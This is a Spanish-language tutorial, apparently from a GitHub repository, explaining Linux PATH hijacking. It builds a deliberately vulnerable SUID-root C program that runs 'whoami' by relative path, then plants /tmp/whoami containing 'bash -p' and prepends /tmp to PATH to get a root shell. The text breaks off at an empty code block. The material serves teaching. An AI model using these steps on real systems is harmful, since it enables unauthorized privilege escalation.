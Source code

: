# Hijacking | Secuestro
El hijacking consiste en dueñarse o robar algo por parte de un atacante.

## Path hijacking

El path hijacking como su nombre lo indica, se refiere al secuestro del path. <br>

El PATH es una variable de entorno que contiene la dirección absoluta de los binarios que se ejecutarán respecto al usuario en sesión. <br>

## Ruta relativa | Ruta relativa

Ruta absoluta: <br>
- Se indica toda la ruta del archivo incluyendo el directorio raíz. Por ejemplo: <br>
```
/bin/ls
```
Ruta relativa: <br>
- se indica la ruta a partir de donde este en ese momento situado. Por ejemplo, si se ejecuta 'ls', la ruta será:
```
/usr/bin/ls
```

## El PATH

Para realizar la explotación de la vulnerabilidad se modificaré el PATH del sistema. <br>
El PATH contiene la información de la ruta, de las variables a las que se accede. <br>
Es el caso de la ruta relativa, cuando se ejecuta 'ls', el path hace referencia al binario ubicado en '/usr/bin/ls' <br>

## Vulnerabilidad

La explotación consciste en modificar el PATH, para que en lugar de ejecutar la ruta relativa, utilicé la ruta absoluta como root. <br>

Para este documentó se hará aprovechandose de un binario creado por root, y con persmisos SIUD.

## Creando binario SUID (set user id)

Crearemos nuestro propio binario que ejecutará un 'whoami' escrito en C. Llamado 'programa.c'

```
#include <stdio.h>

void main(){

   setuid(0);

   printf("Ejecutando con el usuario: (/usr/bin/whoami): ruta absoluta\n");
   system("/usr/bin/whoami");

   printf("Ejecutando con el usuario: (whoami): ruta realtiva\n");
   system("whoami");
}
```
El comando setuid(0), es porque por defecto, cuando se trata de escalar privilegios en programa escrito en C, deshabilita la posibilidad de escalar con el SUID 0, ya que es el de root.<br>
Entonces estableciendo ese comando, se pude realizar el escalamiento. <br>

Una vez creado, se compila. Se debe hacer con el usuario root, o posteriormente cambiar el propietario y el grupo al que pertenece.
```
# Sin ser el usuario root pero con permisos de sudo
gcc programa.c -o binario
sudo chown root:root binario
sudo chmod 4755 binario

# Siendo el usuario root
gcc programa.c -o binario
chmod 4755 binario
```
Y debería verse de la siguiente forma usando ls -la
```
-rwsrwxr-x. 1 root root 25224 Mar 30 18:11 binario
```

## Explotando vulnerabilidad - Path Hijacking & SUID

A través del programa export, se pueden definir la variables del sistema. <br>
Se utilizará export para modificar el PATH. <br>

Pero antes de hacerlo, debemos crear un fichero que contenga el comando con el que escalaremos aprovechando SUID. <br>

```
cd /tmp
touch whoami
chmod 755 whoami
```
El contenido de whoami será el siguiente:
```
bash -p
```
De esa forma nos devolverá una shell con privilegios de root. <br>

Ahora se modificaré el PATH: <br>
```
export PATH=/tmp:$PATH
```
El comienzo del path, se debería ver de la siguiente forma usando echo $PATH
```

```
